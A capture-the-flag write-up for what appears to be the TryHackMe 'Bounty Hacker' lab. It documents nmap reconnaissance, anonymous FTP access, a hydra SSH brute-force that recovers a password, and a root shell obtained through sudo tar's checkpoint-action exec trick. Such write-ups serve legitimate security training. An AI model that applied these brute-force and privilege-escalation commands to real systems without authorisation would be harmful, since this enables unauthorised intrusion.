 ![](Images/rCDF5u6.png)
Always start with a nmap scan. 
```
# Nmap 7.91 scan initiated Thu Jun 10 16:35:31 2021 as: nmap -sC -sV -A -oN scans/nmap-output 10.10.55.156
Nmap scan report for 10.10.55.156
Host is up (0.18s latency).
Not shown: 968 filtered ports, 29 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.182
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 10 16:36:32 2021 -- 1 IP address (1 host up) scanned in 60.59 seconds

```
We have port 21 FTP which is anonymous login allowed, 22 SSH with ubuntu running and 80 HTTP open. Let's see whats in the website.

![](Images/web.png)

Nothing interesting from this webpage. 

# Who wrote the task list?
Let's see what we have in FTP server. 
```bash
┌─[visith@parrot]─[~/CTF/thm/bounty-hacker]
└──╼ $ftp 10.10.55.156
Connected to 10.10.55.156.
220 (vsFTPd 3.0.3)
Name (10.10.55.156:visith): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: task.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.07 secs (6.0500 kB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (123.4317 kB/s)
ftp> exit
221 Goodbye.
```
In task.txt file :
```plain
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
In locks.txt file we found some lists of words looks like passwords.

Answer is the **lin**.
# What service can you bruteforce with the text file found?

Answer must be '**SSH**' any other service we haven't found.

# What is the users password? 

Let's try to bruteforce the ssh service with **hydra**. Here is my command to hydra.

```bash
hydra -l lin -P locks.txt ssh://10.10.55.156:22 | tee scans/hydra-output
```
My hydra output was :
* login: lin 
* password: RedDr4gonSynd1cat3

```plain
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-10 16:50:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.55.156:22/
[22][ssh] host: 10.10.55.156   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-10 16:50:46
```
# user.txt
Let's login into *lin* user.
```bash
┌─[visith@parrot]─[~/CTF/thm/bounty-hacker]
└──╼ $ssh lin@10.10.55.156
The authenticity of host '10.10.55.156 (10.10.55.156)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.55.156' (ECDSA) to the list of known hosts.
lin@10.10.55.156's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{************}
```
# root.txt

Before run any enumeration scripts I like to look into **sudo -l**. Here what I found.

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
**tar** is allowed to run as superuser. Let's see our friend *GTFObins* what got here is link to documentation.
https://gtfobins.github.io/gtfobins/tar/

![](Images/gtfobins.png)

I change this little bit.
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
I change /bin/sh to /bin/bash to get a good looking shell.
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
[sudo] password for lin: 
tar: Removing leading `/' from member names
root@bountyhacker:~/Desktop# bash -p
root@bountyhacker:~/Desktop# cd /root
root@bountyhacker:/root# ls
root.txt
root@bountyhacker:/root# cat root.txt
THM{**********}
```
Thx for the reading !!

![](../Chocolate-factory/Images/giphy.gif)